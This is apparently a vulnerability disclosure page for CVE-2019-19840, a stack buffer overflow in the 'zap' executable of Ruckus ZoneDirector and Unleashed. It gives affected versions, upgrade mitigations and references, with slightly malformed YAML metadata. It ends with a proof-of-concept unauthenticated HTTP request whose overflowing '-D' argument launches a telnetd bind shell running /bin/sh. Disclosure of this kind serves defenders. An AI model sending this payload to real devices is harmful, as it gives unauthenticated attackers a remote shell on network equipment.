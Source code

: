 ```yaml
---
layout: vuln
credit: waveburst
timeline:
    - type: 'report'
      date: '2019-09-19'
      arg: 'Ruckus Product Security Team'
    - type: 'patch'
      date: '2019-12-24'
      url: 'https://support.ruckuswireless.com/security_bulletins/299'
    - type: 'cve-assign'
      date: '2019-12-17'
    - type: 'release'
      date: '2019-12-31'
product:
     - ' - ZoneDirector

        - Unleashed'

vulnerable:
    '- ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

vulnerable:
     - ' - ZoneDirector: 9.9 and before

    - ZoneDirector: 9.10.x

    - ZoneDirector: 9.12.x

    - ZoneDirector: 9.13.x

    - ZoneDirector: 10.0.x

    - ZoneDirector: 10.1.x

    - ZoneDirector: 10.2.x

    - ZoneDirector: 10.3.x

    - Unleashed: 200.6 and before

    - Unleashed: 200.7'

mitigation: 
     '- 9.10.x: Upgrade to 9.10.2.0.84

    - 9.12.x: Upgrade to 9.12.3.0.136

    - 9.13.x: Upgrade to 10.0.1.0.90

    - 10.0.x: Upgrade to 10.0.1.0.90

    - 10.1.x: Upgrade to 10.1.2.0.275

    - 10.2.x: Upgrade to 10.2.1.0.147

    - 10.3.x: Upgrade to 10.3.1.0.21

    - 200.6 and before: Upgrade to 200.7.10.202.94

    - 200.7: Upgrade to 200.7.10.202.94'

severity: 'critical'
alephid: ALEPH-2019010
cve: CVE-2019-19840
date: '2019-12-17'
references:
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - txt'
      url: 'https://www.ruckuswireless.com/security/299/view/txt'
    - src: 'Ruckus Networks - Security Advisory ID 20191224 - PDF'
      url: 'https://www.ruckuswireless.com/security/299/view/pdf'
  
title: 'Stack buffer overflow in zap executable'

---
```

Stack buffer overflow/remote code execution vulnerability via a crafted unauthenticated HTTP request

`zap` executable contains unsafe `strnpy()` on its "-D" argument parser. It can be used to overflow the stack and run arbitrary code. Unintended arguments can be passed to `zap` by using [CVE-2019-19836](/aleph-2019006).

Information about the exploitation of the vulnerability can be found in our [blog post](/2020/01/13/ruckus-wireless/) or the [36C3 talk](https://youtu.be/bmGtG55Zz1Q?t=1358).


## Proof Of Concept ##
Stack buffer overflow on `zap` executable using unauthenticated jaxa request:
``` http
POST /tools/_cmdstat.jsp HTTP/1.1
Content-Type: application/x-www-form-urlencoded charset=UTF-8
Content-Length: 473

<ajax-request action='docmd' xcmd='wc' updater='system.1568118269965.3208' comp='zapd'>
<xcmd cmd='wc' comp='zapd' wcid=1 client='1.1.1.1' tool='zap-up' zap-type='udp' server='1.1.1.2 -D/tmp/Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0A2p������p���5Ad6$r��d8Ad9Ae0Ae1A3Ae4Ae5Ae6A,e7AeCCCCDDDD������������f5Af6Af7,CCCC,telnetd,-l/bin/sh,-p12345' syspmtu=65500 />
</ajax-request>

```
